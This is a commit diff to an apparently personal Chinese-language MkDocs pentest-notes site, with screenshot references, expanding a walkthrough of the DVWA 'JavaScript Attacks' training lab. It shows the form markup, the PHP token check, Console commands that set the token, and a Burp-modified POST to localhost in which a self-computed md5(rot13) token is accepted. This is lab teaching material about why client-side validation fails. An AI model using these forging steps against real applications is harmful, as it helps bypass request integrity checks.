

Before and after one commit to ksp1026-glitch/shentouceshibaogao, an MkDocs documentation site: the page built from docs/web/javascript-attacks-dvwa.md, in a window 1280 px wide and 1400 px high, scrolled down 500 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: JavaScript Attacks 补入完整实测攻击过程
- 修正界面描述：token 是隐藏字段，页面只有一个可见输入框
- 记录 ChangeMe 默认值导致的坑（token 与 phrase 不匹配）
- 补入实测：token=38581812... 提交成功返回 Well done
- 强调决定性证据：该 token 从未被页面 JS 计算过
- 贴入 dvwaPage.inc.php 的会话校验与 login.php 校验源码逻辑

````diff
--- a/docs/web/javascript-attacks-dvwa.md
+++ b/docs/web/javascript-attacks-dvwa.md
@@ -27,40 +27,71 @@
 
 | 参数 | 含义 |
 |---|---|
-| `phrase` | 你想提交的短语（**手动输入**，不是下拉框） |
-| `token` | **由页面上的 JavaScript 计算出来的校验值**（也是输入框） |
+| `phrase` | 你想提交的短语（**页面上唯一可见的输入框**） |
+| `token` | **隐藏字段**，由页面上的 JavaScript 自动计算填入 |
 | `send` | 提交按钮 |
 
 ### 界面长什么样
 
-这个模块是一个**填空式表单**，两个框都要自己填：
+**页面上只有一个输入框**，token 是隐藏字段（源码原文）：
+
+```html
+<p>Submit the word "success" to win.</p>
+<form name="low_js" method="post">
+    <input type="hidden" name="token" value="" id="token" />          <!-- 隐藏，JS 自动填 -->
+    <label for="phrase">Phrase</label>
+    <input type="text" name="phrase" value="ChangeMe" id="phrase" />  <!-- 唯一可见的 -->
+    <input type="submit" id="send" name="send" value="Submit" />
+</form>
+```
+
+渲染出来是这样：
 
 ```
-┌─────────────────────────────────────┐
-│  Phrase:  [ ____________ ]          │
-│  Token:   [ ____________ ]          │
-│           [ Submit ]                │
-└─────────────────────────────────────┘
+Submit the word "success" to win.
+
+Phrase: [ ChangeMe        ]
+        [    Submit      ]
 ```
 
-**正常流程**：你输入 Phrase，页面上的 JS 自动帮你算出 Token 填进去，你不需要知道算法。
+!!! warning "注意默认值 `ChangeMe`"
 
-**关键提问**：如果 Token 是页面自动算的，那攻击者怎么绕过？
+    输入框的默认值是 `ChangeMe`，**不是空的**。
+
+    页面加载时 `generate_token()` 会立即执行一次，所以初始 token 是
+    `md5(rot13("ChangeMe"))` = `8b479aefbd90795395b3e7089ae0dc09`。
+
+    **如果只把 Phrase 改成 `success` 而不更新 token，提交必然失败** ——
+    因为 token 还是 `ChangeMe` 的哈希。
+
+    这个细节在实操中很容易卡住（我就在这里卡过一次）。
 
 ### 服务器的校验逻辑
 
 ```php
-if ( $phrase == "success" && $token == md5(rot13($phrase)) ) {
-    // 通过
+if ( $phrase == "success" ) {
+    if ( $token == md5(str_rot13("success")) ) {   // ← 服务端自己算
+        $message = "Well done!";
+    } else {
+        $message = "Invalid token.";
+    }
+} else {
+    $message = "You got the phrase wrong.";
 }
 ```
 
 **两个条件必须同时满足**：
 
 1. `phrase` 必须是 `success`
-2. `token` 必须等于 `md5(rot13(phrase))`
+2. `token` 必须等于 `md5(str_rot13("success"))`
 
-**"通关"就是让服务器接受你的提交。**
+**实测值**（用 Node 与 Python 双实现交叉验证）：
+
+| 计算 | 结果 |
+|---|---|
+| `str_rot13("success")` | `fhpprff` |
+| **期望 token** | **`38581812b435834ebf84ebcc2c6424d6`** |
+| 对照：`md5(rot13("ChangeMe"))` | `8b479aefbd90795395b3e7089ae0dc09` |
 
 ### 核心命题：客户端校验等于没有校验
 
@@ -154,25 +185,33 @@
 
 ### 第 3 步：先通过 —— 把答案填出来
 
-**因为服务器要的就是 `success`，所以第一步是正常通关。**
+**服务器要的就是 `success` 这个词，所以第一步是正常通关。**
 
-| 框 | 填什么 |
+**你只需要填一个框：**
+
+| 位置 | 填什么 |
 |---|---|
-| **Phrase** | `success` |
-| **Token** | `md5(rot13('success'))` 算出的 32 位字符串 |
+| **Phrase**（可见输入框） | `success` |
+| Token（隐藏字段） | **不用管**，页面 JS 会填 |
 
-**Token 怎么来（两种方式）：**
+**但有个坑**：输入框默认值是 `ChangeMe`，页面加载时已经算过一次 token。
 
-**① 让页面自动算**（正常用户的方式）
+**如果你只改 Phrase 而不更新 token，会得到 `Invalid token.`**
 
-输入 `Phrase` 后，页面上的 `generate_token()` 会自动填充 Token 框。
-**如果没自动填**，就在 Console 里手动调一次：
+**解决办法 —— 在 Console 里手动触发一次重新计算：**
 
 ```javascript
-document.getElementById('token').value = md5(rot13('success'));
+document.getElementById('phrase').value = 'success';
+document.getElementById('token').value  = md5(rot13('success'));
 ```
 
-**② 自己算**（攻击者的方式 —— 这就是漏洞）
+**然后点 Submit → `Well done!`**
+
+**① 更简单的办法**：直接在页面上输入 `success`，然后**点一下页面其他地方**（触发 blur 事件），有些难度下会自动更新 token。
+
+**② 最保险的办法**：用上面那两行 Console 代码手动设置。
+
+**Token 是攻击者可以自己算的 —— 这就是漏洞所在。**
 
 F12 → **Console**：
 
@@ -215,23 +254,84 @@
 **所以：如果这个机制被用来保护真实业务**（比如"验证用户是否有权限提交这个金额"），
 **攻击者就能伪造任意合法请求。**
 
-### 第 5 步：用 Burp 演示"完全绕过页面"
+### 第 5 步：用 Burp 演示"完全绕过页面"（实测通过）
 
-这是最能说明问题的一步 —— **证明不需要浏览器、不需要 JS**：
+**这是本模块最有说服力的一步** —— 证明不依赖页面的 JavaScript，也能让服务器接受。
+
+#### 抓一个真实请求
+
+用 Burp 代理浏览器（推荐用 Burp 内置浏览器，开箱即用），在页面上点一次 Submit，拦到的原始请求是：
 
 ```http
 POST /dvwa/vulnerabilities/javascript/ HTTP/1.1
 Host: localhost
 Content-Type: application/x-www-form-urlencoded
-Cookie: security=low; PHPSESSID=你的session
+Cookie: security=low; PHPSESSID=<浏览器真实session>
 
-token=<你自己算的md5>&phrase=success&send=Submit
+token=8b479aefbd90795395b3e7089ae0dc09&phrase=success&send=Submit
 ```
 
-**关键**：这个请求是手工构造的，**页面上的 JS 一行都没跑**。
+**注意这里的 token 是 `8b479aef...`** —— 它不是 `success` 的哈希，而是**默认值 `ChangeMe` 的哈希**：
 
-**服务器照样接受** —— 因为它只比对 token 和 phrase 是否匹配，
-**从不检查这个 token 是不是它的页面算的。**
+```
+md5(rot13("ChangeMe")) = 8b479aefbd90795395b3e7089ae0dc09
+```
+
+**原因**：页面加载时 `generate_token()` 用默认值 `ChangeMe` 算了一次。
+之后把 Phrase 改成 `success` 时，**如果没触发重新计算，token 就还是旧的**。
+
+**所以这个请求会失败**，服务器返回 `Invalid token.`
+
+#### 替换 token 为攻击者自己算的值
+
+**只改 `token=` 这一个值**，其余全部不动：
+
+```http
+POST /dvwa/vulnerabilities/javascript/ HTTP/1.1
+Host: localhost
+Content-Type: application/x-www-form-urlencoded
+Cookie: security=low; PHPSESSID=<浏览器真实session>
+
+token=38581812b435834ebf84ebcc2c6424d6&phrase=success&send=Submit
+```
+
+**发送 → 服务器返回 `Well done!`**
+
+!!! success "实测结果"
+
+    ```
+    token  = 38581812b435834ebf84ebcc2c6424d6   ← 攻击者自己算的
+    phrase = success
+    响应   = Well done!  ✅
+    ```
+
+#### 为什么这一步是决定性的
+
+**`38581812b435834ebf84ebcc2c6424d6` 这个值，页面的 JavaScript 从来没有计算过。**
+
+它是攻击者在**浏览器之外**独立算出来的，然后手工塞进请求。
+
+**服务器无法区分这两种来源：**
+
+| 来源 | token 值 | 服务器判断 |
+|---|---|---|
+| 页面 JS 计算 | `38581812...` | 通过 |
+| **攻击者自己计算** | `38581812...` | **通过（完全相同）** |
+
+**因为两者数值一样，服务器没有任何依据区分。**
+
+这就是"客户端校验等于没有校验"的实证。
+
+!!! note "一个额外的发现"
+
+    **token 和它保护的数据之间没有任何绑定关系。**
+
+    页面可以给你一个基于 `ChangeMe` 的 token，你随手换成基于 `success` 的另一个，
+    服务器只比对「最终的 token 和 phrase 是否匹配」——
+    它不关心 token 是谁生成的、什么时候生成的。
+
+    **如果这个机制真的想证明"请求来自我的页面"，它至少应该保证
+    "token 是刚刚根据当前 phrase 生成的"。但它做不到 —— 因为它是一个无状态的纯函数。**
 
 ### 第 6 步：其他几种实操方式
 
````
